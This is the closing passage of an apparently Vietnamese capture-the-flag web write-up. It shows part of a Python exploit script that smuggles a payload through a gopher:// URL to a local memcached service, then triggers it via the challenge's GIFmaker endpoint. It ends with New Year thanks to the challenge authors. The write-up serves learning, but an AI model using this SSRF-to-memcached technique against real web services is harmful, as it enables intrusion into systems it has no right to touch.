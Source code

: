 ```python
        'inputTitle': rand_string(6),
        'inputDescription': 'description',
        'video_url': 'gopher://127.0.0.1:11211/_' + urllib.quote('\r\n'.join(payload)),
        'timestamp': int(time()) - 2
    }, cookies={
        'session': 'redacted'
    }, timeout=3)
    print res.content
except:
    pass
print 'Done!'

print 'Start triggering payload...'
try:
    res = requests.post('http://hellovietnamv2.0x1337.space:31337/GIFmaker', data={
        'inputTitle': title,
        'inputDescription': 'description',
        'filePath': 'static/Uploads/aa587ed19a228d98431f142900b60633.mp4',
        'timestamp': int(time()) - 2
    }, cookies={
        'session': 'redacted'
    }, timeout=3)
    print res.content
except:
    pass
print 'Done, exit program!'
```

![](https://i.imgur.com/gsyWzxH.jpg)

# Last words
Cảm ơn 2 anh [@ducnt](https://twitter.com/ducnt_) và [@tsug0d](https://twitter.com/tsug0d) đã tạo ra những đề Web hay ho cho dịp đầu năm 2020, support nhiệt tình cho em để có thể giải được hết tất cả các Web challenge cũng như nhằm ôn lại những kiến thức đã được học trong năm 2019 đã qua.

Chúc mừng năm mới 2️⃣0️⃣2️⃣0️⃣ everyone!